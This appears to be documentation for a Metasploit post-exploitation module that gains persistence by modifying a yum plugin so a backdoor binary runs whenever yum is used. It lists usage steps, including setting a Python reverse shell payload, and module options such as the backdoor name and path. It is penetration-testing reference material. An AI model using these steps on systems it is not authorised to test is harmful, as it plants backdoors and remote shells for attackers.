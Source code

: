 ## Yum package manager persistence

This module will run a payload when the package manager is used. No
handler is ran automatically so you must configure an appropriate
exploit/multi/handler to connect. Module modifies a yum plugin to
launch a binary of choice. grep -F 'enabled=1' /etc/yum/pluginconf.d/
will show what plugins are currently enabled on the system.

### Testing

1. Exploit a box that uses Yum 
2. `use linux/local/yum_package_manager_persistence`
3. `set SESSION <id>`
4. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
5. `exploit`

When the system runs yum update the payload will launch.  You must set handler accordingly.

### Options

**BACKDOOR_NAME**
Name of backdoor executable
 
**PLUGIN**
Name of the yum plugin to target 
  
**SESSION**
The session to run this module on.
 
### Advanced Options

**WritableDir**
Writable directory for backdoor default is (/usr/local/bin/)       

**PluginPath**
Plugin path to use default is (/usr/lib/yum-plugins/)

